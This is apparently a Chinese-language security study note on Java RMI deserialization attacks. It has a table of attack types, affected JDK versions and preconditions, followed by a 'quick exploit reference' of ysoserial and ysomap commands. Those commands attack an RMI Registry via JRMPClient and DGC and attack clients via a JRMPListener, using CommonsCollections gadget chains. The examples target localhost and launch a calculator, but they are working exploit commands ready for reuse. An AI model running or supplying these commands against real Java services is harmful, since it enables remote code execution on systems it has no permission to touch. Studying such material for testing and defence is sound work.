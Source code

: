 ## 总结
参考 [JAVA 协议安全笔记-RMI篇 - 跳跳糖](https://tttang.com/archive/1430/#toc_0x02) 最后的总结表格。
| 攻击类型                                   | 适用jdk版本         | 需要条件                                                                  |
| ------------------------------------------ | ------------------- | ------------------------------------------------------------------------- |
| 加载远程类                                 | <7u21、6u45         | 无                                                                        |
| 加载远程类                                 | 任意                | SecurityManager allow/ java.rmi.server.useCodebaseOnly=false              |
| 远程对象方法参数反序列化                   | <8u242              | 远程对象参数除int、boolean等基本类外/服务端存在反序列化链                 |
| 远程对象方法参数反序列化                   | 任意                | 远程对象参数除int、boolean等基本类和String类外/远程对象环境存在反序列化链 |
| Registry方法参数反序列化                   | <8u121，7u13，6u141 | Registry 端存在反序列化链                                                 |
| 远程对象方法结果                           | 任意                | 调用端存在反序列化环境                                                    |
| DGC方法返回值存在反序列化                  | <8u121，7u13，6u141 | 调用端存在反序列化链（对应 ysoserial JRMPClient）                         |
| JRMI CALL 报错反序列化                     | 任意                | 调用端存在反序列化链 （对应 ysoserial JRMPListener）                      |
| Registry bind/rebind 触发 JRMI CALL报错     | <8u231              | Registry存在反序列化链                                                    |
| Registry 方法参数反序列化触发 JRMI CALL报错 | <8u241              | Registry存在反序列化链                                                    |

# EXP 速查

## JRMPClient 攻击 Registry
### ysoserial
```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPClient 127.0.0.1 1099 CommonsCollections6 "mate-calc"
```

### ysomap
```bash
java -jar ysomap.jar script ../../scripts/exploits/rmi_dgc_exploit_cc.yso
```

rmi_dgc_exploit_cc.yso
```bash
use exploit RMIDGCExploit
use payload CommonsCollections5
use bullet TransformerWithTemplatesImplBullet
set target 127.0.0.1:1099
set args "mate-calc"
run
```

## JRMPListener 攻击 Client
### ysoserial
```bash
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections6 'mate-calc'
```
